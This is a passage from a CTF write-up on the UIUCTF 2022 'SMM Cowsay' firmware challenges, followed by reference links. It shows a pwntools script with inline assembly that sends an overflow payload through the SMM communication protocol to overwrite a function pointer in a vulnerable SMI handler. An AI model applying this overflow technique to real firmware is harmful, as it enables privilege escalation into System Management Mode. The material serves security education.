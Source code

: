 The first part of the exploit is the same as for SMM Cowsay 1: get ahold of
`BootServices->AllocatePool` and `->LocateProtocol`, find the `SmmCommunication`
protocol, allocate some memory to write our message, and send it to `SmmCowsay`
through its SMI handler. The only thing that changes is *what we are sending*:
this time the `->Data` field of the `EFI_SMM_COMMUNICATE_HEADER` will be filled
with a string of 400 bytes of garbage plus 8 more to overwrite the function
pointer.

We will fill all unused general purpose register with easily identifiable values
so that we can see what is spilled on the stack:

```python
# ... same code as for SMM Cowsay 1 up to the allocation of `buffer`

input('Attach GDB now and press [ENTER] to continue...')

payload = 'A'.encode('utf-16-le') * 200 + p64(0x4141414141414141)

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, {0x18 + len(payload)}
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}

    mov ebx, 0x0b0b0b0b
    mov esi, 0x01010101
    mov edi, 0x02020202
    mov ebp, 0x03030303
    mov r9 , 0x09090909
    mov r10, 0x10101010
    mov r11, 0x11111111
    mov r12, 0x12121212
    mov r13, 0x13131313
    mov r14, 0x14141414
    mov r15, 0x15151515
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad {len(payload)}                   /* Buffer->MessageLength */
    /* payload will be appended here to serve as Buffer->Data */
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')
conn.interactive() # Let's see what happens
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31